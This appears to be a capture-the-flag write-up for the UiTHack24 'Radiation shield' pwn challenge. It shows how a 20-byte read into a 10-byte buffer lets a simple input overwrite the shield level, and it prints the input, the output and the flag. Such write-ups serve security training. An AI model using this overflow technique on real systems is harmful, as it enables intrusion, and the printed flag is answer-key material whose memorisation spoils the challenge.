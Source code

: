 > # Radiation shield
> > Pwn - 50pts
>
> Deep within the space station "Pandora", a looming solar flare threatens the lives of the station's crew. <br>
> The crew is locked out of the radiation shield controls, so you must hack into the system to increase the shield's protection to `maximum`.

## Writeup
We have to set the shield level to `maximum`. The `shield_control` function reads in 20 bytes, but tries to store it in a buffer with a size of 10, causing a stack overflow. If we add more than 10 characters we can see this overflow by the output of the program.
```
New shield status:
aaaaaaaaaaaaaaa
Shield status: aaaaaaaaaaaaaaa

Shield level: aaaaa
```

If we write 10 a's (or any other character), and then the word `maximum`, we will overflow the buffer storing the shield level, and get the flag.
```
New shield status:
aaaaaaaaaamaximum
Shield status: aaaaaaaaaamaximum

Shield level: maximum

UiTHack24{M4ximum_sh13ld_0verflooow}
```
